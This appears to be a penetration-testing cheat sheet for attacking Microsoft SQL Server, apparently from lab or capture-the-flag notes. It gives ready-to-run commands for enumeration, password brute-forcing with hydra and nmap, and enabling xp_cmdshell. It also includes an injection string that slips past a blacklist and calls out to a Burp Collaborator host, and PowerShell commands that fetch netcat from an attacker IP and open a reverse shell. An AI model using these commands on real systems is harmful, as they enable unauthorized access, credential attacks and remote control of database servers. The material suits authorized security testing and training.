 ```yaml
---
description: MSSQL - Microsoft SQL service. typically runs on TCP port 1433.
---
```


# MSSQL

## Enumeration

```
nmap [IP]
nmap --script ms-sql-info -p 1433 [IP]
nmap -p 1433 --script ms-sql-ntlm-info --script-args mssql.instance-port=1433 [IP]
```

## Password attack

```
nmap -p 1433 --script ms-sql-brute --script-args userdb=/root/Desktop/wordlist/common_users.txt,passwd=/root/Desktop/wordlist/100-common-passwords.txt [IP]
hydra -L /root/Desktop/user.txt –P /root/Desktop/pass.txt [IP] mssql
hydra -l sa –P /root/Desktop/pass.txt [IP] mssql
```

Connect to MSSQL instance with impacket-mssqlclient

```
impacket-mssqlclient machine_name/user@[IP] -windows-auth
```

Enable xp\_cmdshell

```
#this enables xp_cmdshell
sp_configure 'xp_cmdshell', '1'
RECONFIGURE
# Quickly check what the service account is via xp_cmdshell
EXEC master..xp_cmdshell 'whoami'

# Bypass blackisted "EXEC xp_cmdshell"
‘; DECLARE @x AS VARCHAR(100)=’xp_cmdshell’; EXEC @x ‘ping k7s3rpqn8ti91kvy0h44pre35ublza.burpcollaborator.net’ —
```

Check what role the user has on the server

```
SQL> SELECT is_srvrolemember('sysadmin');
              

-----------   

          1   
```

Download netcat to the victim and create a reverse shell

```
SQL> xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; wget
http://10.10.14.9/nc64.exe -outfile nc64.exe"

SQL> xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; .\nc64.exe -e cmd.exe
10.10.14.9 443"
```
